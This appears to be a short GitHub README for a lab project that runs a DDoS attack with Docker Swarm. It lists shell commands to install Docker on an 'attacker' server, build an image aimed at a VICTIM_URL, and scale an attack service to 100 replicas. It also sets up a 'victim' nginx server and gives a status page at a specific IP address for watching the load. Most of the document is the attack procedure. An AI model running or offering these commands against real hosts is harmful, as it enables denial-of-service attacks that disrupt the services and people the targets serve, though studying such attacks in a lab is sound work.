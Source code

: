 # DDOS Docker Swarm attack

## Config attacker server
```
    ./connect-to-attacker
    sudo apt update
    sudo apt install apt-transport-https ca-certificates curl software-properties-common
    curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
    sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu bionic stable"
    sudo apt update
    sudo apt install docker-ce
```

## Run attack
```
    docker build --build-arg VICTIM_URL=$VICTIM_URL -t ddos-attack:0.1 .
    docker swarm init
    docker service create --name ddos_attack_service --detach=false ddos-attack:0.1
    docker service scale ddos_attack_service=100
```

## Config victim nginx server
```
    ./connect-to-victim
    sudo apt-get install nginx
    sudo mv nginx/default.conf /etc/nginx/sites-enabled/default
    sudo service nginx restart
```

## Monitoring victim nginx server
Go to http://18.190.15.1/nginx_status
